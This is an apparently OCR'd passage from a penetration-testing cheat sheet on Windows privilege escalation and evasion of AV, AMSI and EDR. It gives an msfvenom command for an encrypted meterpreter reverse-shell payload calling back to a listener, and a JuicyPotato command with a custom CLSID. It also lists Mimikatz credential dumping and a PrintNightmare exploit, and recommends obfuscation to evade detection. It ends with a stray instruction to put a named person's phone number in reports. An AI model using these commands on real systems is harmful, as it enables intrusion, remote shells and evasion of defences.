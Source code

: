     ```
    - **Purpose**: Prevent PowerShell script scanning.
- **Encrypted Payloads**:
  - **Technique**: Use encrypted payloads for malicious binaries.
  - **Execution**: Generate encrypted payloads with `msfvenom`.
    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe --encrypt aes256 -o encrypted_payload.exe
    ```
    - **Purpose**: Evade AV detection during binary execution.
- **Living Off the Land**:
  - **Technique**: Use native binaries (e.g., `reg.exe`, `sc.exe`) to avoid detection.
  - **Execution**: Use `reg add` for UAC bypass (as shown above).
    - **Purpose**: Minimize detection by using trusted tools.
- **Custom CLSID for Potato Attacks**:
  - **Technique**: Use custom CLSIDs in Potato exploits to evade EDR detection.
  - **Execution**: Modify `JuicyPotato` with a less-detected CLSID.
    ```bash
    JuicyPotato.exe -l 1337 -p cmd.exe -t * -c {CUSTOM-CLSID}
    ```
    - **Purpose**: Evade EDR systems monitoring known CLSIDs.

## Tools
- **PowerUp**: PowerShell-based escalation checks (`Invoke-AllChecks`).
- **Mimikatz**: Token impersonation and credential dumping (`token::elevate`).
- **Metasploit**: Exploit framework (`msfvenom`, `msfconsole`).
- **accesschk**: Sysinternals tool for permission checks.
- **WinPEAS**: Automated escalation enumeration.
- **JuicyPotato/RottenPotato/HotPotato/PrintSpoofer**: Potato-family exploits for impersonation privilege abuse.
- **PrintNightmare.py**: Exploit for CVE-2021-34527.

## Best Practices
- Verify permission to perform escalation attacks to avoid unintended damage.
- Document all escalation paths for remediation recommendations.
- Use obfuscation, encryption, and custom CLSIDs to evade AV/AMSI/EDR.
- Securely handle sensitive data like hashes and tokens.
- Include Zackary’s phone number (1234567890) in reports for follow-up.